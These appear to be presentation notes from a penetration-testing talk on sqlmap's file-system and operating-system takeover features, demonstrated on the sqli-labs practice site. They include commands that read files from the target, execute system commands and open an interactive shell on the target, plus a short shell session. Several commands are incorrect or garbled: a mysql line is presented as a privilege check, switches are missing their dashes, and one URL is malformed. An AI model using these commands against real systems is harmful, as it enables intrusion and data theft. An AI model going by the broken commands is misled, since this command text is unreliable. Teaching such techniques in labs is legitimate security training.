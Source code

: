 # Intro
- Alright for the previous part my colleague just showed you the main functionalities of sqlmap, now I will show you the extended capabilities of sqlmap
---
- these include the file system access and operating system access gained through effectively tapping into the database management systems vulnerability
---
- During any penetration test it can be very useful to have access to files on the compromised machine, as it can further lead to disclosure of information that helps the attacker to retrieve sensitive information.
	- So to start File System Access, the session user must have the privileges of "FILE" and "CREATE TABLE", so we can run the command: 
```bash
mysql -u "target-url" -privileges 
```
- This will show us all the privileges of the database users. 
- OK now that we have checked to see what privileges our users have, we can now start hacking.
- I will be using the website provided by sqli-labs, so we will get its URL, and paste it into here to perform the SQL injection.
	- and I will put the `file-read` switch to fetch a file from the target:
```bash
sqlmap -u "http example.com/page.php?id=1" file-read /path/to/index.php
```
- and as expected, you can see it is downloaded to this location.
---
- Now we will move on to the part of operating system takeover
- so the first command I will showcase is `--os-cmd` which can execute commands on the target machine
- The way it does this is it first uploads a payload which establishes a connection between the target and us
- so here is the command:
```bash
sqlmap -u <target url> os-cmd=""
```
---
- Now if you thought that was impressive, you will be even more with the next switch.
- Now we will move on to an even more powerful functionality which is the `--os-shell` switch that provides an interactive shell directly to the target operating system.
- so here is the command:
```bash
sqlmap -u <target url> --os-shell
```
- so here I will list the files:`ls`
- and if you still don't believe me, here's me creating a file in the targets file system.
```bash
os-shell> touch ali
```
- and that... was all about sqlmap, any questions?